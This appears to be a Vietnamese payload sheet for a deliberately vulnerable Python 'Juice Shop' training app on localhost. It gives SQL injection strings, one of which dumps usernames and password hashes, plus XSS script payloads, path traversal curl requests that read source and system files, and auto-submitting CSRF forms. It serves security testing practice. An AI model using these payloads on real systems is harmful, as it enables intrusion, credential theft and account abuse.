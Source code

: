 # Payload khai thác lỗ hổng bảo mật Juice Shop Python

## 1. SQL Injection
**Endpoint:** `/products/all-protducs?search=...`

- **Payload cơ bản:**
  ```
  ' OR 1=1 --
  ```
  **Ví dụ:**
  ```
  /products/all-protducs?search=' OR 1=1 --
  ```
  → Trả về toàn bộ sản phẩm.

- **Dump dữ liệu:**
  ```
  ' UNION SELECT 1, username, password_hash, 0, 0, '/static/images/orange-juice.jpg', '2024-01-01' FROM users--
  ```
  → Có thể hiển thị username và password_hash của user.
   
---

## 2. XSS Reflection
### a. Profile
**Endpoint:** `/profile`
- **Payload (điền vào ô Tên, Địa chỉ, Số điện thoại):**
  ```html
  <script>alert('XSS')</script>
  ```
  → Sau khi lưu, sẽ hiện popup khi load lại trang profile.

### b. Tìm kiếm sản phẩm
**Endpoint:** `/products/all-protducs?search=...`
- **Payload:**
  ```html
  "><img src=x onerror=alert('XSS')>
  ```
  → Khi không tìm thấy sản phẩm, sẽ hiện popup.

---

## 3. Path Traversal

### Bước 1: Liệt kê thư mục hiện tại để xác định cấu trúc

**Gửi request:**
```sh
curl -X POST http://localhost:5000/api/api/list-directory \
  -H "Content-Type: application/json" \
  -d "{\"path\": \".\"}"
```

**Kết quả mẫu:**
```json
{
  "files": [
    "app.py",
    "config.py",
    "data",
    "app",
    "requirements.txt",
    ...
  ]
}
```
> **Giải thích:**
> Bạn sẽ thấy các file và thư mục trong thư mục làm việc hiện tại của Flask.

---

### Bước 2: Đọc file mã nguồn (ví dụ: app.py)

**Gửi request:**
```sh
curl -X POST http://localhost:5000/api/api/read-file \
  -H "Content-Type: application/json" \
  -d "{\"path\": \"app.py\"}"
```

**Kết quả mẫu:**
```json
{
  "content": "from flask import Flask, render_template, session\nfrom flask_sqlalchemy import SQLAlchemy\n..."
}
```
> **Giải thích:**
> Nếu thành công, bạn sẽ nhận được nội dung file `app.py`.

---

### Bước 3: Đọc file trong thư mục con (ví dụ: data/database.py)

**Gửi request:**
```sh
curl -X POST http://localhost:5000/api/api/read-file \
  -H "Content-Type: application/json" \
  -d "{\"path\": \"data/database.py\"}"
```

**Kết quả mẫu:**
```json
{
  "content": "import sqlite3\nfrom data.connect import get_connection\n..."
}
```

---

### Bước 4: Đọc file hệ thống (ví dụ: file hosts trên Windows)

**Gửi request:**
```sh
curl -X POST http://localhost:5000/api/api/read-file \
  -H "Content-Type: application/json" \
  -d "{\"path\": \"C:/Windows/System32/drivers/etc/hosts\"}"
```

**Kết quả mẫu:**
```json
{
  "content": "127.0.0.1       localhost\n::1             localhost\n..."
}
```

---

### Bước 5: Xử lý lỗi đường dẫn

**Ví dụ lỗi:**
```sh
curl -X POST http://localhost:5000/api/api/read-file \
  -H "Content-Type: application/json" \
  -d "{\"path\": \"../../app.py\"}"
```
**Kết quả:**
```json
{
  "error": "[Errno 2] No such file or directory: '../../app.py'"
}
```
> **Giải thích:**
> Đường dẫn không đúng so với thư mục làm việc của Flask. Hãy dùng đường dẫn tuyệt đối hoặc xác định lại vị trí file bằng cách liệt kê thư mục.

---

**Lưu ý:**
- Luôn kiểm tra cấu trúc thư mục trước khi đọc file.
- Nếu không chắc chắn về đường dẫn, hãy dùng API liệt kê thư mục để dò tìm.
- Không sử dụng vào mục đích xấu, chỉ kiểm thử bảo mật cho chính bạn!

---

## 4. CSRF
**Tạo file HTML, mở bằng trình duyệt khi đã đăng nhập ở tab khác:**

### a. Thêm sản phẩm vào giỏ hàng
```html
<form action="http://localhost:5000/cart/add" method="POST">
  <input type="hidden" name="product_id" value="1">
  <input type="hidden" name="quantity" value="1">
  <input type="submit" value="CSRF Add to Cart">
</form>
<script>document.forms[0].submit();</script>
```

### b. Cập nhật profile
```html
<form action="http://localhost:5000/profile" method="POST">
  <input type="text" name="name" value="<script>alert('CSRF')</script>">
  <input type="text" name="address" value="CSRF Address">
  <input type="text" name="phone" value="123456">
  <input type="submit" value="CSRF Profile">
</form>
<script>document.forms[0].submit();</script>
```

---

> **Lưu ý:**
> - Đổi `localhost:5000` thành domain/port bạn đang chạy app nếu khác.
> - Payload này chỉ dùng cho kiểm thử bảo mật, không sử dụng vào mục đích xấu! 